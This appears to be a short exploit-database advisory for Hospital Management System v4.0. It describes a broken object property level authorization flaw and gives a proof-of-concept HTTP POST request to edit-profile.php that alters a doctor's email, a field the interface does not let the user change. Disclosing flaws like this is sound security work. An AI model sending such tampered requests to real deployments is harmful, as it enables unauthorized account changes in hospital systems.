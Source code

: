 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update his email that cannot modify in UI.

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/edit-profile.php HTTP/1.1
...

fname=user1&address=aaaaaa&city=abbb&gender=male&uemail=user2%40test.com(CHANGE HERE)&submit=
```